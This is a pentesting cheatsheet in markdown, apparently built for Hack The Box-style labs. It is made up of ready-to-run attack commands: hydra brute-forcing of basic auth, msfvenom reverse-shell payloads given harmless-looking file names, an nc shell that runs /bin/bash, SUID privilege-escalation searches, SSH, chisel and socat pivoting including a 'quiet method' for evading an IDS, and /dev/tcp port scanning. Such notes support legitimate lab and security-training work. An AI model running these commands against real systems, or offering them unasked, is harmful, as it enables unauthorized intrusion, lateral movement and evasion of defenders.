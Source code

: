 # Cheatsheet

## Web
### Bruteforce basic auth
`hydra -l admin -P /usr/share/wordlist/rockyou.txt -s 80 -f domain.htb http-get /page`


## Shell
### Upgrade shell
`python -c 'import pty; pty.spawn("/bin/bash")'`
`python3 -c 'import pty; pty.spawn("/bin/bash")'`

## Reverse shell msf
`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.9.1.36 LPORT=9998 -f exe > iis-dev.exe`
`msfvenom -p linux/x86/shell/reverse_tcp LHOST=10.9.1.36 LPORT=9998 -f elf > nginx-dev`

## Privesc
### SUID
`find / -xdev -user root \( -perm -4000 -o -perm -2000 -o -perm -6000 \) 2>/dev/null`

## Pivoting
* Tunnelling/Proxying: Creating a proxy type connection through a compromised machine in order to route all desired traffic into the targeted network. This could potentially also be tunnelled inside another protocol (e.g. SSH tunnelling), which can be useful for evading a basic Intrusion Detection System (IDS) or firewall
* Port Forwarding: Creating a connection between a local port and a single port on a target, via a compromised host

### SSH tunneling
Not internal port :
`ssh -L <your_port>:127.0.0.1:<remote_port> <username>@<remote_IP> -i id_rsa -fN`

Internal port :
`ssh -R <your_port>:<your_IP:<remote_port> <username>@127.0.0.1 -fN`

### Chisel
Port forwarding and ssh tunneling without neading SSH
`./chisel server -p 8000 --reverse`
`.\chisel.exe client 10.10.16.6:8000 R:8888:localhost:8888`

### Proxychains
Access a proxy created by another tool
`procychains <command> <IP> <PORT>`

### Socat
Port forwarding, proxy, redirection, etc.
### Proxy
`./socat tcp-l:<local_port> tcp:<your_IP>:<your_port> &`
`nc 127.0.0.1 <local_port> -e /bin/bash`

### Port forwarding
`./socat tcp-l:<port_to_open>,fork,reuseaddr tcp:<remote_IP>:<port_to_redirect_to> &`
#### Quiet method
Attacker machine :
`socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &`

On compromised machine :
`./socat tcp:ATTACKING_IP:8001 tcp:TARGET_IP:TARGET_PORT,fork &`

To use the fictional network between them :
`./socat tcp:10.50.73.2:8001 tcp:172.16.0.10:80,fork &`

## sshuttle
`sshuttle -r root@<remote_IP> --ssh-cmd "ssh -i ./id_rsa" <remote_network>`

## Living of the land
Scanning a network without nmap :
`for i in {1..255}; do (ping -c 1 192.168.1.${i} | grep "bytes from" &); done`

Port scanning without nmap :
`for i in {1..65535}; do (echo > /dev/tcp/192.168.1.1/$i) >/dev/null 2>&1 && echo $i is open; done`

## C2
![](https://md.floppy.sh/uploads/c50c6736-b93a-447a-ab49-2a9f36fa6eee.png)
